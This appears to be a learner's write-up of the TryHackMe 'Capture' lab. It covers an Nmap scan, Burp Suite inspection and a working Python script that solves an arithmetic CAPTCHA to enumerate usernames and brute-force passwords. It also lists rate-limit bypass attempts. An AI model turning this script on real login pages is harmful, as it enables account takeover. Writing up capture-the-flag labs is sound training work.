



# Capture — TryHackMe Writeup

## Overview

This writeup documents my approach to the **Capture** room on TryHackMe. The main challenge was not simply submitting a large number of login attempts. The application introduced an arithmetic CAPTCHA after login attempts, so I had to understand the request flow and automate the complete process.

I used Burp Suite to inspect the login request, tested how the application responded to invalid usernames and passwords, and then wrote a Python script using `requests` and regular expressions to solve the CAPTCHA and automate the login attempts.

> **Scope:** This writeup describes activity performed against the authorized TryHackMe Capture lab.

## Attack Path

```text
Add capture.thm to /etc/hosts
            |
            v
       Nmap scan
            |
            v
      Web login page
            |
            v
 Inspect login request in Burp Suite
            |
            v
 Identify CAPTCHA and response behaviour
            |
            v
 Enumerate valid username
            |
            v
 Python automation:
  - request login page
  - obtain CAPTCHA
  - solve arithmetic expression
  - submit username, password and CAPTCHA
            |
            v
      Identify valid password
            |
            v
       Log in to website
            |
            v
          Capture flag
```

## 1. Initial Setup

I started by adding the target machine's IP address to `/etc/hosts`, mapping it to `capture.thm`.

```bash
sudo nano /etc/hosts
```

I added the following entry, replacing `<target_ip>` with the IP address assigned to my room:

```text
<target_ip>    capture.thm
```

This allowed me to access the target using its hostname instead of repeatedly entering its IP address.

## 2. Nmap Reconnaissance

I scanned the target to identify open ports and detect the services running on them.

```bash
nmap -sC -sV -oN nmap_scan.txt capture.thm
```

- `-sC` runs Nmap's default set of scripts.
- `-sV` attempts to identify the versions of services running on open ports.
- `-oN nmap_scan.txt` saves the scan output in normal text format.

### Scan Results

The scan identified two open TCP ports:

| Port | Service | Version / Details |
|---|---|---|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 80/tcp | HTTP | Werkzeug httpd 2.2.2 (Python 3.8.10) |

The web server redirected to `/login`, so I moved on to inspect the web application.

### Full Nmap Output

```text
# Nmap 7.991 scan initiated Thu Nov  5 13:11:17 2026 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN nmap_scan.txt capture.thm
Nmap scan report for capture.thm (<target_ip>)
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 df:d8:3b:b5:33:bb:48:5a:c9:34:19:3c:ef:b2:d3:6f (RSA)
|   256 fb:4c:2f:79:fe:2f:51:68:f2:0d:9a:c8:14:e3:e8:60 (ECDSA)
|_  256 42:44:b2:cb:74:17:f8:13:2f:56:af:8d:17:3d:67:44 (ED25519)
80/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.8.10)
|_http-server-header: Werkzeug/2.2.2 Python/3.8.10
|_http-title: Did not follow redirect to /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Nmap done at Thu Nov  5 13:17:14 2026 -- 1 IP address (1 host up) scanned in 356.81 seconds
```

The sanitized scan is also included in `files/nmap_scan.txt`.

## 3. Inspecting the Login Page

I opened `http://capture.thm` in the browser. The application presented a login page.

The room provided lists of possible usernames and passwords. Based on that information, I initially suspected that the task would involve identifying valid credentials through login attempts.

The login page is shown below.



I captured a login request in Burp Suite. The request contained two main form parameters:

```http
username=<candidate_username>
password=<candidate_password>
```

I sent the request to **Intruder**, configured the username and password payloads, and started testing.

However, the attempts did not behave as expected. After several requests, the application required a CAPTCHA to be completed before another login attempt could be processed.

## 4. Understanding the CAPTCHA and Rate-Limiting Behaviour

I tried a few approaches to get around the restriction:

- Adding an `X-Forwarded-For` header.
- Removing the CAPTCHA parameter from the request.
- Sending the request with an empty CAPTCHA parameter.

These attempts did not solve the problem. The application still required a valid CAPTCHA answer.

At this point, I realized that I needed to understand and reproduce the application's actual login flow rather than repeatedly sending modified requests.

I researched the CAPTCHA mechanism and learned that this room used a simple arithmetic expression rendered in the HTML page. Since the expression was present in the response, it could be extracted and calculated programmatically.

This became the basis of my Python automation.

## 5. Understanding the Login Request Flow

Before writing the final script, I inspected how the application responded to different login attempts.

The important observations were:

1. I first submitted a username and password.
2. The application then returned a CAPTCHA challenge.
3. The next POST request needed the username, password, and CAPTCHA answer together.
4. The response differed depending on whether the submitted username existed and whether the password was correct.

I used these response differences to separate username discovery from password discovery.

### 5.1 Identifying a Valid Username

I first focused on the username list rather than testing every username-password combination.

When I submitted an invalid username, the application returned a message indicating that the username did not exist. A valid username produced a different response.

I used this difference as the condition in my username-testing script. I reused the same general request-and-CAPTCHA process, changing the response check to identify a valid username.

This helped me identify the username to use in the password-testing stage.

### 5.2 Identifying the Correct Password

After identifying the username, I manually submitted that username with an incorrect password and observed the response.

The application returned a specific **invalid password** message when the password was wrong. I used this response as the condition in my password-testing script.

The uploaded `password_bruteforce.py` is the password-testing version of my script. I used the same overall approach for username discovery, changing the submitted values and response condition.

## 6. Python CAPTCHA and Login Automation

I used Python's `requests` module to send HTTP requests and `re` (regular expressions) to extract the arithmetic CAPTCHA from the returned HTML.

The script is included in:

```text
files/password_bruteforce.py
```

The candidate lists are included in:

```text
files/usernames.txt
files/passwords.txt
```

### 6.1 Importing the Required Modules

```python
import requests
import re
```

- `requests` sends HTTP requests to the login endpoint.
- `re` provides regular-expression functionality. I used it to locate the arithmetic expression in the CAPTCHA HTML.

### 6.2 Defining the Target and Creating a Session

```python
URL = "http://capture.thm/login"

session = requests.Session()
```

`URL` stores the login endpoint.

`requests.Session()` creates a session object that persists cookies between requests. This is important because the application uses session state while serving the login page and processing CAPTCHA challenges.

### 6.3 Setting HTTP Headers

```python
headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": URL,
    "Origin": "http://capture.thm"
}
```

These headers describe the type and origin of the request:

| Header | Purpose |
|---|---|
| `User-Agent` | Identifies the client making the request. |
| `Content-Type` | Indicates that the request body contains URL-encoded form data. |
| `Referer` | Identifies the page from which the request originated. |
| `Origin` | Identifies the origin of the request. |

The form data is sent as `application/x-www-form-urlencoded`, matching the format used by a normal HTML login form.

### 6.4 Loading the Password List

```python
with open("files/passwords.txt", "r") as f:
    passwords = [line.strip() for line in f if line.strip()]
```

This code opens the password candidate file and loads its contents into a list.

- `open(..., "r")` opens the file in read mode.
- `line.strip()` removes leading and trailing whitespace, including newline characters.
- `if line.strip()` skips empty lines.

Loading the candidates into a list allows the script to iterate over them one by one.

### 6.5 Extracting and Solving the CAPTCHA

This is the main part of the automation.

```python
def solve_captcha(html):

    match = re.search(
        r'(\d+)\s*([+\-*/])\s*(\d+)\s*=\s*\?',
        html
    )

    if not match:
        print("[-] CAPTCHA expression not found")
        return None

    a = int(match.group(1))
    operator = match.group(2)
    b = int(match.group(3))

    if operator == "+":
        answer = a + b

    elif operator == "-":
        answer = a - b

    elif operator == "*":
        answer = a * b

    elif operator == "/" and b != 0:
        answer = a / b

    else:
        return None

    return answer
```

The function receives the HTML response as its `html` argument.

#### Regular expression

```python
r'(\d+)\s*([+\-*/])\s*(\d+)\s*=\s*\?'
```

This pattern searches for an arithmetic expression in the following general format:

```text
number operator number = ?
```

The regular expression components are:

| Pattern | Meaning |
|---|---|
| `(\d+)` | Captures one or more digits. This is the first number. |
| `\s*` | Matches zero or more whitespace characters. |
| `([+\-*/])` | Captures one arithmetic operator: `+`, `-`, `*`, or `/`. |
| `(\d+)` | Captures the second number. |
| `=` | Matches the equals sign. |
| `\?` | Matches the question mark. |

The parentheses create capture groups. I used `match.group(1)`, `match.group(2)`, and `match.group(3)` to retrieve the first number, operator, and second number.

#### Calculating the answer

```python
a = int(match.group(1))
operator = match.group(2)
b = int(match.group(3))
```

The captured numbers are converted from strings into integers. The `if`/`elif` conditions then perform the operation represented by the CAPTCHA.

If the expression cannot be found, the function prints an error and returns `None`.

### 6.6 Requesting the CAPTCHA

For each password candidate, the script first requests the login page and submits an initial test login:

```python
session.get(URL, headers=headers)

data = {
    "username": "test",
    "password": "test",
}

response = session.post(URL, data=data, headers=headers)
```

The GET request obtains the login page and establishes session state.

The POST request submits test credentials. I used the returned HTML to obtain the CAPTCHA challenge:

```python
html = response.text.lower()
captcha_answer = solve_captcha(html)
```

- `response.text` contains the response body returned by the server.
- `.lower()` converts the response to lowercase.
- `solve_captcha(html)` extracts and calculates the arithmetic expression.

The script then checks whether a CAPTCHA answer was returned before proceeding.

### 6.7 Submitting the Username, Password, and CAPTCHA

After calculating the CAPTCHA answer, the script prepares the actual login form data:

```python
data = {
    "username": "natalie",
    "password": password,
    "captcha": str(captcha_answer)
}
```

The request includes all three required values:

- The username identified during username enumeration.
- The current password candidate.
- The calculated CAPTCHA answer.

The request is submitted using:

```python
result = session.post(
    URL,
    data=data,
    headers=headers
)
```

The same session is used so that the request retains the session cookies.

### 6.8 Detecting an Incorrect Password

After submitting the request, the script checks the response:

```python
if "invalid password" in result.text.lower():
    print(f"[-] Invalid password: {password}")

else:
    print(f"[?] Different response: {password}")
    break
```

The application returned the message `invalid password` for an incorrect password.

I used that message as the failure condition. If the response did not contain it, the script treated the response as a possible successful credential and stopped testing.

A different response is a detection signal, not proof by itself. I confirmed the credentials by logging in through the website.

The terminal output below shows the password-testing script stopping when the response differed from the invalid-password message.



### 6.9 Handling Request Errors

```python
except requests.RequestException as e:
    print(f"[!] Request error: {e}")
```

This catches request-related errors, such as connection failures, and prints the error instead of terminating without an explanation.

## 7. Debugging and Improving the Script

Writing the script was the most time-consuming part of this room.

My first attempts did not work as expected. I tested the requests, checked the responses, modified the script, and ran it repeatedly. I also changed the response conditions depending on whether I was identifying usernames or testing passwords.

The important part was understanding the sequence expected by the application:

1. Establish the session.
2. Request the login page.
3. Submit an initial login request.
4. Extract the CAPTCHA from the response.
5. Calculate the CAPTCHA answer.
6. Submit the username, password, and CAPTCHA together.
7. Inspect the response to determine whether the submitted value was valid.

After debugging and refining the script, I was able to identify the valid username and password.

## 8. Logging In and Capturing the Flag

After identifying the correct credentials, I entered them into the website's login page.

The login succeeded, and the application displayed the room's flag.

```text
Flag: ************************
```

This completed the Capture room.



## 9. What I Learned

- I learned how to automate a login process that requires an arithmetic CAPTCHA instead of relying only on Burp Suite Intruder.
- I learned to use Python's `requests` module to maintain a session and submit form data.
- I learned to use regular expressions to extract information from HTML responses.
- I spent time testing, debugging, and modifying my script until the request flow and response checks worked correctly.
- I learned to study the application's response messages and use them to distinguish invalid usernames from invalid passwords.

## 10. Tools Used

| Tool / Module | Purpose |
|---|---|
| Nmap | Port and service enumeration |
| Browser | Inspecting the web application |
| Burp Suite | Capturing and examining login requests |
| Gobuster | Not used in this room |
| Python | Automating the login process |
| `requests` | Sending HTTP requests and maintaining a session |
| `re` | Extracting the CAPTCHA expression |
| Username and password lists | Providing candidate values for testing |

---

*This writeup is for the authorized TryHackMe Capture room and documents my own testing process.*
